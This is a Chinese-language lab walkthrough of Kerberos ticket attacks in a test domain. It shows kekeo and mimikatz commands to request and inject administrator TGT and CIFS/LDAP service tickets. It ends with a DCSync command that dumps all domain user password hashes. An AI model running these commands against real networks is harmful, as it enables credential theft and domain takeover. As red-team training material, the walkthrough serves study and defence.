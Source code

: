 # 申请TGT
## 1、kekeo自动导入票据
密码（明文/Hash）请求

默认情况下，域普通用户不可访问域控的cifs

![](../images/254cb5cf5c829ab5b3d3559993abae74.png)

使用命令导入tgt到内存（参数/ptt是自动导入，不加该参数就会生成一个kirbi文件）

```powershell
kekeo.exe "tgt::ask /user:administrator /domain:sec.com /password:Az123456@ /ptt" exit
```

可以看到成功访问到了C$

![](../images/f43a02a91061f09f38d4afd9bfa34237.png)

## 2、mimikatz手动导入凭证
先用kekeo生成一张凭证，并且使用mimikatz导入到内存

```powershell
kekeo.exe "tgt::ask /user:administrator /domain:sec.com /password:Az123456@" exit
mimikatz.exe "kerberos::ptt TGT_administrator.kirbi" exit
```

![](../images/5ca683e49b8bac67b6638d1af734591b.png)

命令行输入klist查询当前导入的凭证

![](../images/d38f474cad71012028af43653497abd6.png)

注1：如果导入凭证到内存后，即使使用kerberos::purge清除凭证，dir也还是可以正常使用，除非重启计算机

# 申请ST
## 1、先申请一张TGT到文件
上面实验已申请，故不在申请。

## 2、请求CIFS
先申请一张CIFS的TGS凭证

```powershell
.\kekeo.exe "tgs::ask /tgt:TGT_administrator@sec.com.kirbi /service:cifs/win2019-1.sec.com /ptt" exit
```

![](../images/4ece7cfc7beb97c08a3b267a4897e243.png)

klist查看确定已经导入TGS-CIFS凭证

![](../images/78921d92dbc95c86de2a261662db9e60.png)

dir也能正常访问

![](../images/546243fdf55e0d9c0c707ce2400fc87b.png)

## 3、请求LDAP
申请一张LDAP的ST凭证，并且/ptt导入到内存中

```powershell
.\kekeo.exe "tgs::ask /tgt:C:\Users\Administrator\Desktop\kekeo\x64\TGT_administrator@SEC.COM_krbtgt~sec.com@SEC.COM.kirbi /service:ldap/win2019-1.sec.com" exit
```

![](../images/0f1973eda659a3536117010c0c3f7b9d.png)

然后mimikatz通过DCSync导出域用户Hash

```powershell
.\mimikatz.exe "lsadump::dcsync /domain:sec.com /all /csv"
```

![](../images/fb4e6335db46d9a32f1db7386ad26c15.png)

# DCSync导出分析
需要一台域机器，后文分析